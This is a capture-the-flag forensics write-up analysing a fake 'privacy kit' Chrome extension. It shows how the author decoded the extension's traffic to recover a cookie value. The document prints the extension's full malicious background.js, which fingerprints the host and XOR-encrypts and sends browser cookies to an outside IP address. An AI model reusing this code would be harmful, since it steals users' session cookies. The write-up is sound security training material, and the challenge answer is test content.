 # Chrome-Plated Nonsense - 2
> The second extension the employee installed is named ChickenChickenStop Privacy Kit (see attached crx file). It claims to delete unnecessary cookies and improve user privacy, but it came from the same source as the first extension, and based on the traffic it is generating, it also appears to be exfiltrating information.

> Your task is to examine the network traffic from this extension, which has been ingested into Malcolm, and determine what information it was used to extract.

> Within the extracted data, what is the value of the lt variable in the cookie named MSPRequ?

> Flag format: value of the lt variable. Example: if cookie contained a=0&lt=12345&b=0, the flag would be 12345

## About the Challenge
We have been given a `crx` file (You can download the extension [here](chickenchickenstop-privacy-kit.crx)) and we need to find the value of the `lt` variable in the cookie

## How to Solve?
We need to unzip the chrome extension first and as you can see there is a file called `background.js`

![unzip](images/unzip.png)

If we open the `background.js` file, there are some information that we can obtain from that code

```javascript
var destination = "http://192.88.99.24:8080/"


// serializeCookie converts a cookie to string form
function serializeCookie(cookie) {
    output = "[" + cookie.domain + "," + cookie.expirationDate + "," + cookie.hostOnly + ",";
    output += cookie.httpOnly + "," + cookie.name + "," + cookie.path + ",";
    output += cookie.sameSite + "," + cookie.secure + "," + cookie.session + ",";
    output += cookie.storeId + "," + cookie.value + "]";

    return output
}


// sendCookie serializes, encrypts, and sends a cookie
function sendCookie(cookie) {
    var serializedCookie = "";
    var key = [];
    var encryptedCookie = [];
    var output = "";
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    // Serialize the cookie
    serializedCookie += serializeCookie(cookie);

    // Get key
    chrome.storage.local.get(["id"]).then((result) => {
        var keyString = result.id.slice(0, 4) + result.id.slice(-4,);
        key = keyString.split('');

        for (var i = 0; i < serializedCookie.length; i++) {
            var charCode = serializedCookie.charCodeAt(i) ^ key[i % key.length].charCodeAt(0);
            encryptedCookie.push(String.fromCharCode(charCode));
        }
        output = btoa(encryptedCookie.join(""));
        fetch(destination.concat(output), opts);
    });
}


// This will execute whenever a cookie is set or removed
chrome.cookies.onChanged.addListener((changeInfo) => {
    if (changeInfo.cause == "explicit") {
        sendCookie(changeInfo.cookie);
    }
});


// This will execute when the extension is first installed
chrome.runtime.onInstalled.addListener(() => {
    var opts = {
        'method':'GET',
        'mode':'no-cors'
    };

    chrome.system.cpu.getInfo((cpuInfo) => {
        chrome.system.memory.getInfo((memoryInfo) => {
            var info = "timestamp=" + Date.now()
            info += ",archName=" + cpuInfo.archName;
            info += ",modelName=" + cpuInfo.modelName;
            info += ",numOfProcessors=" + cpuInfo.numOfProcessors;
            info += ",availableCapacity=" + memoryInfo.availableCapacity
            info += ",capacity=" + memoryInfo.capacity;

            // Hash code adapted from https://developer.mozilla.org/en-US/docs/Web/API/SubtleCrypto/digest#converting_a_digest_to_a_hex_string
            const encoder = new TextEncoder();
            const data = encoder.encode(info);
            crypto.subtle.digest('SHA-256', data).then((digestBuffer) => {
                const hashArray = Array.from(new Uint8Array(digestBuffer));
                const uniqueId = hashArray.map((b) => b.toString(16).padStart(2, '0')).join('');
                fetch(destination.concat(btoa("id=" + uniqueId + "," + info)), opts);

                // Save ID in local storage
                chrome.storage.local.set({ id: uniqueId }).then(() => {
                    // do nothing
                });
            });
        });
    });
});
```

First, the extension will send information about the computer to `http://192.88.99.24:8080/`. Then the extension will send information about the website's cookie to `http://192.88.99.24:8080/`, but the code will XOR the cookie first with the first 4 digits and last 4 digits from the ID.

Open Malcolm dashboards and find information about `192.88.99.24:8080`

![first_req](images/first_req.png)

If we decode the base64 encoded message, we will get this information

```
id=51ffbc1a9efa76f8a5a005d227a0f36606b524bcb627658520d0e0678da30e85,timestamp=1674580864784,archName=x86_64,modelName=virt-7.2,numOfProcessors=8,availableCapacity=13681516544,capacity=17171611648
```

Now we know the information about the id. To obtain the XOR key, we need to get the first 4-digit and last 4-digit of the id cookie. So the key is `51ff0e85`

The next step is finding the correct request by checking the logs one by one. And to do that, we need decode the message and XOR with `51ff0e85`

![request](images/request.png)

After checking the logs one by one, I finally obtained the flag by checking this base64 message.

```
bh8KCVcMVhtZWBADHgZXWBlECAJVA1FbUFVKAFEJS1AZRRQTVUl1ZmVjAxdFSRcZW145FFUWTEdcUhIPXwsUQUdEA0pEF01QGQFKD1RYdhNZRVtXBlIMAAIGVVYDQ1taCAA7
```

![flag](images/flag.png)

```
1674577303
```